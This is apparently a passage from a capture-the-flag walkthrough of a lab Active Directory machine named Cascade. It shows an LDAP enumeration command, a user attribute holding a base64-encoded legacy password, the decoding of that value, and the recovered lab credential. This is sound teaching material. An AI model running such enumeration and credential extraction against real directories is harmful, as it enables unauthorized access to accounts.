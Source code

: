
Make a list.

```shell
$ cat users | awk -F[][] '{print $2}' | sponge users
```

Searching users with `ldapsearch`, we get the password for `r.thompson`.

```shell
$ ldapsearch -x -H ldap://10.10.10.182 -D "cascade\\" -W -b "DC=cascade,DC=local" "(objectClass=user)"

Enter LDAP Password: 
# extended LDIF
#
# LDAPv3
# base <DC=cascade,DC=local> with scope subtree
# filter: (objectClass=user)
# requesting: ALL
#
...
# Ryan Thompson, Users, UK, cascade.local
dn: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
objectClass: top
...
cascadeLegacyPwd: clk0bjVldmE=
```

Decode it.

```shell
$ echo 'clk0bjVldmE=' | base64 -d                                    
rY4n5eva
```

`r.thompson:rY4n5eva`

We can read some shares.

![](assets/Pasted%20image%2020250510130830.png)
